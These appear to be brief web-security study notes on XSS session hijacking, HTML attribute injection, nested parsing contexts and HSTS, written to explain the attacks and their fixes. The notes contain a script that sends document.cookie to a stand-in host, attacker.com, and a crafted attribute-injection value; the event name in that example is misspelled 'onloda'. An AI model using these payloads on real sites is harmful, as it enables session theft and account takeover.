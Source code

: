 # session hijacking with xss

```
<script type="text/javascript">
	new Image().src =
		'https://attacker.com/steal?cookie=' + document.cookie
</script>
```
# Dangerous HTML attributes

```
<img src='x.png' alt = 'DATA' />
```
- if you put *DATA= example' onloda='alert(document.cookie)*
this is result

```
<img src='x.png' alt = 'example' onloda='alert(document.cookie)' />
```
- how to fix???
- change *'* and *"* to &apos;, &quot;

# Beware nesting and parsing chain

- ex1

```
<div onclick="setTimeout('doStuff(¥'USER_DATA_HERE¥')', 1000)"></div>

<script>
	let someValue = 'USER_DATA_HERE'
	setTimeout("doStuff('" + someValue + "')", 1000)
</script>
```

# What is HSTS ?
Hypertext Strict Transport Security is forced to use TLS policy mechanism
